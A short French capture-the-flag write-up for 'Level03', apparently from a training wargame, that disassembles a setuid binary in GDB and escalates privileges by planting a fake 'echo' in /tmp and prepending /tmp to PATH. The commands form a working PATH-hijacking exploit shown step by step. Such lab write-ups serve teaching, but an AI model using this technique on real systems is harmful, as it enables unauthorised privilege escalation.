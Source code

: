 # Level03

Qui suis-je? Ou suis-je?

	$ ls -la
	-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

	$ file level03
	(binary file with setuid setgid)

	$ ./level03
	Exploit me

On va analyser le programme avec GDB

	$ gdb level03

	$ (gdb) disas main
	...
	0x080484f7 <+83>:	mov    DWORD PTR [esp],0x80485e0
	0x080484fe <+90>:	call   0x80483b0 <system@plt>
	...

	$ (gdb) x/s 0x80485e0
	0x80485e0:	 "/usr/bin/env echo Exploit me"

On voit que la fonction system est appelée avec le parametre "/usr/bin/env echo Exploit me"

Il va falloir creer un 'faux' echo qui va en fait executer getflag

	$ echo "/bin/sh -c 'getflag'" > /tmp/echo

	$ ls -l /tmp/echo
	-rw-rw-r-- 1 level03 level03 21 Nov 27 19:44 /tmp/echo
	(On a eu les droits)

	$ chmod 755 /tmp/echo

Puis ajouter /tmp dans le PATH en premier pour que le systeme le trouve dedans

	$ export PATH=/tmp:$PATH

Et enfin lancer le binaire

	$ ./level03
	Check flag.Here is your token : XXXXXXXXXXXXXXXXXXX

:checkered_flag:

